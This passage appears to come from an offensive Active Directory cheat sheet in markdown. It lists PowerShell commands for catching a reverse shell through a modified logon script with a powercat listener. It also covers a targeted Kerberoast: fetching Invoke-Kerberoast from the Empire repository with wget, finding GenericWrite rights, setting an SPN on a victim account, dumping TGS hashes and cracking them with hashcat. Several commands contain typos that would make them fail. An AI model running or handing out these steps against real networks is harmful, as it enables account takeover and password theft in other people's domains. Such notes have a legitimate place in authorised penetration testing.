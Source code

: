 ```
Get-DomainUser -Identity $TARGET_USER -Properties scirptpath
```
```
. .\powercat.ps1
```
```
powercat -lp 4444 -Verbose
```
User now has to log in, and we will catch a reverse shell.
#### 88 SET SPN Kerberoast
>NEEDS LOCAL ADMIN USER ACCESS
```
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
```
Look for accounts that have SPN set up.
```
. .\Invoke-Kerberoast.ps1
```
```
invoke-kerberoast
```
Look for accounts where we have GenericAll, for GenericWrite.
```
. .\PowerView.ps1
```
Copy your current user's Security Identifier value:
```
Get-DomianUser -Name $USER
```
```
Get-ObjectAcl -SamAccountName * -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericWrite') -and ($_.SecurityIdentifier -match '$SID')}
```
```
Set-DomainObject -Identity $TARGET_USER -Set @{serviceprinciplename='whatever/whatever'}
```
See if it was set correctly:
```
Get-DomainUser -Identity $TARGET_USER | select serviceprincipalname
```
```
. .\Invoke-Kerberoast.ps1
```
```
invoke-kerberoast
```
Hash should appear here, copy the hash value.
In notepad++ press CTRL+J to join all the lines together. CRTL+H > enable Regular express. Replace the spaces in the document with:
Find what: \s*
Replace with:
```
hashcat.exe -m 13100 kerberoast.txt rockyou.txt -O
```
OR
```
invoke-kerberoast -OutputFormat HashCat > hash.txt
```
Open and copy the value.  In notepad++ press CTRL+J to join all the lines together. CRTL+H > enable Regular express. Replace the spaces in the document with:
Find what: \s*
Replace with:
[[Hashcat#Kerberos TGS-REP]]
```
Import-Module .\PowerView.ps1
```
```
Get-DomainUser -SamAccountName $TAGET_USER
```